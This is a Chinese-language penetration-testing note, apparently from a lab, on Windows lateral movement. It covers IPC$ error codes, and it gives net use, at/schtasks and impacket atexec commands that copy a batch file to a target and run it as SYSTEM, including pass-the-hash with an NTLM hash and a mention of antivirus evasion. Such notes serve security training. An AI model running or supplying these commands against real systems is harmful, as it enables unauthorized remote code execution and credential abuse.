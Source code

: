
###### 建立 IPC 常见的错误代码

（1）5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限

（2）51：网络问题，Windows 无法找到网络路径

（3）53：找不到网络路径，可能是 IP 地址错误、目标未开机、目标 Lanmanserver 服务未启动、有

防火墙等问题

（4）67：找不到网络名，本地 Lanmanworkstation 服务未启动，目标删除 ipc$

（5）1219：提供的凭据和已存在的凭据集冲突，说明已建立 IPC$，需要先删除

（6）1326：账号密码错误

（7）1792：目标 NetLogon 服务未启动，连接域控常常会出现此情况

（8）2242：用户密码过期，目标有账号策略，强制定期更改密码

###### 建立 IPC 失败的原因

（1）目标系统不是 NT 或以上的操作系统

（2）对方没有打开 IPC$共享

（3）对方未开启 139、445 端口，或者被防火墙屏蔽

（4）输出命令、账号密码有错误

~~~powershell
[at] & [schtasks]
#at < Windows2012
net use \\192.168.3.21\ipc$ "Admin12345" /user:god.org\ad
ministrator # 建立 ipc 连接：
copy add.bat \\192.168.3.21\c$ #拷贝执行文件到目标机器
at \\192.168.3.21 15:47 c:\add.bat #添加计划任务
#schtasks >=Windows2012
net use \\192.168.3.32\ipc$ "admin!@#45" /user:god.org\ad
ministrator # 建立 ipc 连接：
copy add.bat \\192.168.3.32\c$ #复制文件到其 C 盘
schtasks /create /s 192.168.3.32 /ru "SYSTEM" /tn adduser /sc DAILY /tr c:\add.bat /F #创建 adduser 任务
对应执行文件
schtasks /run /s 192.168.3.32 /tn adduser /i #运行 adduser 任务
schtasks /delete /s 192.168.3.21 /tn adduser /f#删除 adduser 任务
~~~

如果minkatz没抓到密码明文，抓到的是hash，win2012以上版本默认关闭wdigest，攻击者无法从内存中（lsass.exe）获取明文密码，如果win2012以下打过KB2871997补丁也无法得到明文密码

在内网中，无论是本地的内存转储还是域的`NTDS.dit`中都存在着一定的`LM-Hash`和`NTLM-Hash`，而在操作系统Windows 2012 server之后（包含）内存转储中是不保存明文密码的

早期Windows使用的`LM-Hash`、`NTLM-Hash`、Linux中`/etc/shadow/`的`SHA-256`/`SHA-512`亦或者Wordpress用户的加盐密码（`MD5`）

那么需要impacket包hash传递，可能需要做免杀

~~~powershell
atexec.exe ./administrator:Admin12345@192.168.3.21 "whoami"
atexec.exe god/administrator:Admin12345@192.168.3.21 "whoami"
atexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 ./administrator@192.168.3.21 "whoami"
~~~

